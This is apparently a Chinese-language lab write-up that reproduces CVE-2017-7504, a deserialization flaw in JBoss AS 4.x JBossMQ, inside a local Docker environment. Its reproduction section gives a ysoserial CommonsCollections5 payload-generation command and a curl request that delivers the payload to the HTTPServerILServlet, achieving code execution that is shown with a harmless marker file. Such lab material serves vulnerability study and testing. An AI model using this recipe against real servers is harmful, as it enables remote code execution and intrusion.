

# JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

参考：

- https://github.com/joaomatosf/JavaDeserH2HC
- https://www.youtube.com/watch?v=jVMr4eeJ2Po

## 漏洞环境

执行如下命令启动JBoss AS 4.0.5：

```
docker-compose up -d
```

环境启动后，目标为`http://your-ip:8080`。

## 漏洞复现

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，我们借助ysoserial的eCommonsCollections5利用链来复现。生成Payload：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 "touch /tmp/success" > 1.ser
```

我们将1.ser文件内容作为POST Body发送：

```
curl http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @1.ser
```



执行`docker-compose exec jboss bash`进入容器，可见`/tmp/success`已成功创建。
